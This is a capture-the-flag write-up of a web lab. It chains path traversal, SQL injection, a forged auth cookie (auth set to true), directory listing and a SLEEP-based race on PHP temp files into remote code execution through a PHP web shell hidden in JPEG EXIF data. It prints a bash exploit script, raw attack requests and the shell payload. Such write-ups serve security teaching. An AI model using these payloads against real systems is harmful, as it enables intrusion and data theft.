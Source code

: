 # VulnLab

<figure><img src="../../.gitbook/assets/vulnlab/pic8.png" alt=""><figcaption></figcaption></figure>

Upon browsing our VulnLab instance we immediately notice a request to `/thumbnail?file=bg2.jpg`. The first thing that comes to mind is of course path traversal. In fact if we request `/etc/passwd` with a classic payload we get an error message:

```
GET /thumbnail?file=../../../../../../../etc/passwd HTTP/1.1

Reading content from this directory is denied
```

which is different from say this one:

```
GET /thumbnail?file=../../../../../../../tmp/foobar HTTP/1.1

File doesn't exist
```

We keep this information in mind for the moment: it will be useful later. The second thing that stands out are requests to an `/analytics` endpoint:

```
GET /analytics?page=/news/1 HTTP/1.1
```

It's easy to see that `/analytics` is vulnerable to SQL injection so we can dump the db where we find a users table:

```
Database: vulnlab
Table: user
[1 entry]
+----+----------------------------------+-----------+
| id | password                         | username  |
+----+----------------------------------+-----------+
| 1  | ******************************** | bob.jones |
+----+----------------------------------+-----------+
```

The hash did not crack - at least for me - but now we have a valid username we can use and try bruteforcing the login form:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Finding a valid password is of course left as an exercise to the reader, but like in any Adam's challenge, when bruteforce is involved you can just use wordlists suggested on HackingHub.io.

We now have a new endpoint `/account/files` that lists our user's medical results:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
GET /account/files HTTP/1.1

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

Here we notice that we have "files" list where bob.jones, our username, is somehow involved in the path.

More importantly, upon logging in we have a strange cookie that contains some useful information:

```
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjoiNmI3ZjZjYzI0NjhjNzBhN2U5N2I0MjM3ZGEyMDBmY2YifQ%3D%3D
```

The cookie decodes to

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":"6b7f6cc2468c70a7e97b4237da200fcf"}
```

and the info inside the JSON data attribute decodes to:

```
{"id":2,"username":"bob.jones"}
```

Maybe if we are able to change the data inside the cookie to a path traversal payload like `"username"="../../../../etc/passwd"`, we can try to read arbitrary files.

This part can be tricky: the auth hash authenticates the information inside the data attribute of our JSON. Without knowing some secret information we cannot alter what's inside data. But we can fool the hash validation by changing the "auth" string with a boolean true:

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":true}
```

Notice that here we are using a "counterfit" token:

```
GET /account/files HTTP/1.1
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjp0cnVlfQ%3d%3d

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

This not only works without giving errors, but it allows us to alter the inner content of the data attribute. Using a very handy burp extension which is called Hackvector (or of course constructing payloads manually) we can use something like this:

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc/passwd"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"error":"Not a valid directory"}
```

and we get an interesting error. What if we try to look at /etc or /tmp?

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"files":[{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/.pwd.lock","name":".pwd.lock","extension":"lock","size":0},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/X11","name":"X11","extension":"","size":4096},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/adduser.conf","name":"adduser.conf","extension":"conf","size":3028},...
```

Interestingly enough we have a way to list directories.

If you want to play around an alternative way is using a simple bash script:

{% code title="lfi-exploit.sh <domain> <path>" lineNumbers="true" %}
```bash
#!/bin/sh

inside='{"id":2,"username":"'$2'"}'
inside=$(/bin/echo -n $inside | base64)
token=$(/bin/echo -n '{"auth":true,"data":"'$inside'"}' |base64)

echo $token
curl $1/account/files -H "Cookie: token=$token" | jq
curl $1/account/files -H "Cookie: token=$token" | jq  -r '.files[] |.link'
```
{% endcode %}

For flag number 2 it's enough to list `../` to find a secret file.

But now what? Remember that at this point we have three things that we have to put together to reach a much better result (RCE in the end):

1. a SQL injection on `/analytics?page=/news/1`;
2. the possibility to list directories, and in particular `/tmp`;
3. maybe (we are not sure yet), the possibility to include files from `/tmp` directory via `/thumbnail?file=../../../../../../../tmp/foobar`.

Are we able to upload files to /tmp? Sure: during file upload PHP, the language of choice by Adam, creates temporary files under /tmp. Files have a random name, so it will be hard to list /tmp/ with the second vulnerability unless we can also let the server SLEEP during upload using the SQL injection. So we can try something like this:

```
POST /analytics?page=a';SELECT+SLEEP+(60)%23 HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Length: 221

------WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Disposition: form-data; name="file_to_upload"; filename="shell.php"
Content-Type: text/php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryoy6htU17IDYnPK7v--
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

this gives us 60 second to list files under /tmp/:

```
GET /account/files HTTP/1.1
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../tmp/"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

So now it's just a matter of including what we uploaded and...

```
GET /thumbnail?file=../../../../../../../tmp/phpzaP6ow HTTP/1.1

HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Sat, 06 Jul 2024 15:02:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 22

Not a valid image file
```

we need to overcome the last defense with a real image that also contains actual php code.

Please note that a valid jpg image is necessary because, as you will see once you have a shell, there is this restriction in place:

```php
if (@exif_imagetype($file)) {
	header('Content-Type: image/jpg');
	include_once($file);
} else {
	die("Not a valid image file");
}
```

I order to facilitate the process we can create a very simple form on our machine to do the POST:

```html
<form method="post" enctype="multipart/form-data" action="https://xyz.eu1.ctfio.com/analytics?page=a';SELECT SLEEP(300)-- -">
        <input type="file"  name="file_to_upload" >
        <input type="submit" name="submit">
        </form>
```

and before uploading a real jpg we can insert in it a PHP payload with exiftool:

```bash
exiftool  -author='<?php system($_GET["cmd"]); ?>' test.jpg
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This part can be quite tricky but in the end you will have command exectuion and you can also grab a valid shell

```bash
www-data@3af02839d4cf:/$ wc -c /flag.txt
46 /flag.txt
```
